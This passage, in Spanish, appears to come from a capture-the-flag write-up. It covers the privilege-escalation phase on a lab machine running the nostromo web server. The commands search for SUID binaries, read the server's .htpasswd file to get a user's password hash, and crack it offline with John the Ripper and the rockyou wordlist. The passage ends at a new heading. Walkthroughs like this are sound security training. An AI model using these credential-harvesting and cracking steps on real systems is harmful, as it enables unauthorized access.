 ## Escalada de privilegios {-}

### Enumeracion del usuario en la maquina victima {-}

```bash
cd /home
#Output
david

ls /home/david
#Output
Permisson denied

ls -l /home
#Output
drwx--x--x
```

Enumeramos el systema

```bash
cd /
id
sudo -l
find \-perm -4000 2>/dev/null
cd /var
ls
cd nostromo
cd conf
cat nhttpd.conf
cat /var/nostromo/conf/.htpasswd
```

Encontramos el hash del usuario david vamos a copiarlo en la maquina de atacante, y intentamos bruteforcear con **John**

### John {-}

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Encontramos una contraseña intentamos ponerla haciendo un 
```bash
 su david 
```
 y 
```bash
 su root 
```
, pero no va. La conclusion a la que hay que llegar
es que cuando miras el fichero nhttpd.conf, dice que hay un directorio **public_www**.


### Investigacion del public_www {-}
